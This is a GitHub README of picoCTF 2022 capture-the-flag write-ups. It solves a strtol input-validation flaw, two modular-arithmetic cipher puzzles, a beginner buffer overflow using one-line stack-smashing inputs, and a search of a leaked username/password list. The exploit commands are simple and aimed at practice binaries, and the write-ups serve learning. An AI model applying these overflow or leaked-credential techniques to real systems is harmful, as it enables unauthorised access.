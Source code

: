 
# picoCTF-2022
### Hi there, and Welcome to my picoCTF-2022 progress and writeups

**Total Chalennges : 65**
✔️Solved: 51
❌Unsolved : 14 
(completed 72.5%)

**Team rank: 677 from 7794 (Top 8%)**

![image](https://user-images.githubusercontent.com/62214984/163713181-4492b90e-03a6-476b-a968-f44da82bb5ed.png)

## The provided here flags are not genuine PicoCTF flags

<details>
  <summary><h2> 1. basic-file-exploit | 100 points ✔️ </h2></summary>
  <h3>Description:</h3>
	The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! <br/>
	<s>Connect to the program with netcat:</s><br/> 
	<s>$ nc saturn.picoctf.net 49000</s><br/>
	"<i>Use <a href=https://github.com/LogicBypass/CTF-s/raw/main/picoCTF-2022/1.basic-file-exploit/1.basic-file-exploit.out><code>1.basic-file-exploit.out</code></a> instead</i>"<br/>
	The program's source code with the flag redacted can be downloaded <a href=https://github.com/LogicBypass/CTF-s/blob/main/picoCTF-2022/1.basic-file-exploit/1.basic-file-exploit.c>here.</a> <br/>
	<br/>
  
  > Hint: Try passing in things the program doesn't expect. Like a string instead of a number.
  ----
  <h3>Reconnaissance:</h3>
	Download the files: <code>wget link-to-file</code><br/> 
	Make it exacutable:<code>chmod +x *</code><br/>
	Open the program's source code file and analyze the flag retrieving function:<br/>
<pre>
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
	puts(flag);
	fseek(stdin, 0, SEEK_END);
	exit(0);
}
</pre>
	<br/>
	Now we need to manipulate the input to get the function result == 0 </br>
  <hr>
  <h3>Exploitation:</h3>
	At the first run, let's try to use it as intended</br>
<pre>
└─$ ./1.basic-file-exploit.out
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
Logic Bypass
Please enter the length of your data:
12
Your entry number is: 1
Write successful, would you like to do anything else?
2
Please enter the entry number of your data:
1
Logic Bypass
Read successful, would you like to do anything else?
Timed out waiting for user input. Press Ctrl-C to disconnect
Goodbye!
</pre>
<br/>
	Now let's try to insert "0" into different fields:<br/>
	First try:
<pre>
└─$ ./1.basic-file-exploit.out
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
0
Please enter the length of your data:
0
Please put in a valid length		#Not allowed to insert 0
Please enter the length of your data:
1
Your entry number is: 1
Write successful, would you like to do anything else?
2                                                      #Read our entry
Please enter the entry number of your data:
1
0
Read successful, would you like to do anything else?

Timed out waiting for user input. Press Ctrl-C to disconnect
Goodbye!
</pre>
<br/>
	Nothing interesting</br>
	Second try, the valid input but try to read the "0" entry number
<pre>
└─$ ./1.basic-file-exploit.out
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
Logic Bypass
Please enter the length of your data:
12
Your entry number is: 1
Write successful, would you like to do anything else?
2                                                      #Switch to Read entry
Please enter the entry number of your data:
0
picoCTF{#########################}
</pre>
Hooray! We have a flag!
<br/>
We also can get the flag by "Trying passing strings instead of number" as mentioned in "Hint"<br/>
This works because of "strtol() function error" that says: In case no conversion was performed (no digits seen, and 0 returned)
<pre>
└─$ ./1.basic-file-exploit.out
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
Logic Bypass
Please enter the length of your data:
12
Your entry number is: 1
Write successful, would you like to do anything else?
2                                                      #Switch to Read entry
Please enter the entry number of your data:
A
picoCTF{#########################}
</pre>
Hooray! We have a flag!
</details>

---

<details>
  <summary><h2> 2. basic-mod1 | 100 points ✔️ </h2></summary>
  <h3>Description:</h3>
	We found this weird message being passed around on the servers, we think we have a working decryption scheme.<br/>
	<br/>
	Message:<br/> 
	<i> 202 137 390 235 114 369 198 110 350 396 390 383 225 258 38 291 75 324 401 142 288 397 </i><br/>
	<br/>
	Take each number mod 37 and map it to the following character set:<br/>
	0-25 is the alphabet (uppercase)<br/>
	26-35 are the decimal digits<br/>
	36 is an underscore<br/>
	Wrap your decrypted message in the picoCTF flag format<br/>
	<br/>
  
  > Hint1: Do you know what mod 37 means?
	
  > Hint2: mod 37 means modulo 37. It gives the remainder of a number after being divided by 37.

  ----
  <h3>Reconnaissance and Exploitation:</h3>
	Go to <a href="https://www.dcode.fr/cipher-identifier">Chipher Identifier</a> to find a Modulo Cipher decoder.<br/>
	Open <a href="https://www.dcode.fr/modulo-cipher">Modulo Cipher</a> from results, change modulo nr to 37 and insert the Message.<br/>
	Take the output and using <a href="https://www.dcode.fr/substitution-cipher">Substitution Cipher</a> and map it to the character set from the description:<br/>
	<pre>
	0-25 is the alphabet (uppercase).
	26-35 are the decimal digits.
	36 is an underscore.</pre>
	Wrap your decrypted message in the picoCTF flag format<br/>

	picoCTF{R****_N_*0***_********}
Hooray! We have a flag!
</details>

---

<details>
  <summary><h2> 3. basic-mod2 | 100 points ✔️ </h2></summary>
  <h3>Description:</h3>
  A new modular challenge!<br/>
  Message:<br/> 
  <i> 186 249 356 395 303 337 190 393 146 174 446 127 385 400 420 226 76 294 144 90 291 445 137 </i><br/>
	<br/>
  Take each number mod 41 and find the modular inverse for the result. Then map to the following character set:<br/>
  1-26 are the alphabet<br/>
  27-36 are the decimal digits<br/>
  37 is an underscore<br/>
	<br/>
  Wrap your decrypted message in the picoCTF flag format (i.e. picoCTF{decrypted_message})<br/>
  <br/>
    
  > Hint1: Do you know what the modular inverse is?<br/>
  > Hint2: The inverse modulo z of x is the number, y that when multiplied by x is 1 modulo z.<br/>
  > Hint3: It's recommended to use a tool to find the modular inverses.<br/>


  ----
  <h3>Exploitation:</h3>
  
  Go to <a href="https://www.dcode.fr/cipher-identifier">Chipher Identifier</a> to find a Modular Inverse decoder.<br/>
  Open <a href="https://www.dcode.fr/modular-inverse">Modular Inverse</a> from results, change modulo nr to 41 and insert the Message one by one.<br/>
  Take the output and using <a href="https://www.dcode.fr/substitution-cipher">Substitution Cipher</a> and map it to the character set from the description:<br/>

    <pre>
    0-25 is the alphabet (uppercase).
    26-35 are the decimal digits.
    36 is an underscore.</pre>
  Wrap your decrypted message in the picoCTF flag format<br/>

    picoCTF{1*V3R*3L*_H4*D_B7*B9*79}
Hooray! We have a flag!
</details>

---

<details>
  <summary><h2> 4. buffer overflow 0 | 100 points ✔️ </h2></summary>
  <h3>Description:</h3>
  Smash the stack<br/>
  Let's start off simple, can you overflow the correct buffer?<br/> 
	<br/>
  The program is available <a href=https://github.com/LogicBypass/CTF-s/raw/main/picoCTF-2022/4.buffer-overflow-0/vuln>here.</a> <br/>
  You can view source <a href=https://github.com/LogicBypass/CTF-s/raw/main/picoCTF-2022/4.buffer-overflow-0/vuln.c>here.</a> .<br/>
<br/>

    
  > Hint1: How can you trigger the flag to print?<br/>
  > Hint2: If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.<br/>
  > Hint3: Run <code>man gets</code> and read the BUGS section. How many characters can the program really read?<br/>


  ----
  <h3>Reconnaissance:</h3>
  Download the files: <code>wget link-to-file</code><br/> 
  Make it exacutable:<code>chmod +x *</code><br/>
  Open the program's source code file and analyze it<br/>
  Run <code>man gets</code> and read the BUGS section.<br/>


  <h3>Exploitation:</h3>
  Option 1:<br/>
    <code>python -c 'from pwn import *;print(cyclic(60))' | ./vuln </code><br/>
  Option 2:<br/>
    <code>python -c 'print ("a"*100)' | ./vuln </code><br/>
  Option 3:<br/>
  <i>Python not always works as buffer overflow input, so it's a good habbit to have an alternative:</i><br/>
    <code>(echo -en "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n"; cat) | ./vuln </code><br/>
<br/>
  <code>picoCTF{************}</code><br/>
Hooray! We have a flag!<br/>
</details>

---

<details>
  <summary><h2> 5.credstuff ✔️ </h2></summary>
  <h3>Description:</h3>
  	We found a leak of a blackmarket website's login credentials. Can you find the password of the user <code>cultiris</code> and successfully decrypt it?
	<br/>
	Download the leak  <a href=https://artifacts.picoctf.net/c/534/leak.tar>here.</a> <br/>
	<br/>
    The first user in <code>usernames.txt</code> corresponds to the first password in <code>passwords.txt</code>. The second user corresponds to the second password, and so on.<br/>
    <br/>
    
  
  > Hint: Maybe other passwords will have hints about the leak?


  ----
  <h3>Reconnaissance & Exploitation:</h3>
	Download the file: <code>wget link-to-file</code><br/> 
	Extract it :<code>tar -xf file</code><br/>
	Search for <code>cultiris</code> and it's line number in <code>usernames.txt</code><br/>
    <br/>
	<pre>
	cat usernames.txt | grep "cultiris" -n
	Output:
	>>> 378:cultiris
	</pre>
	<br/>
	Now we need to search for this line in <code>passwords.txt</code> file. </br>
	<pre>
    sed '378!d' passwords.txt
	Output:
	>>> cvpbPGS{P7e1S_54I35_71Z3}
	</pre>
	<br/>
    Decode with ROT13 and get the flag:
    <code>picoCTF{C*r**_5***5_7*M*}</code>
 
</details>

---

 Checkmarks:
✔️
❌


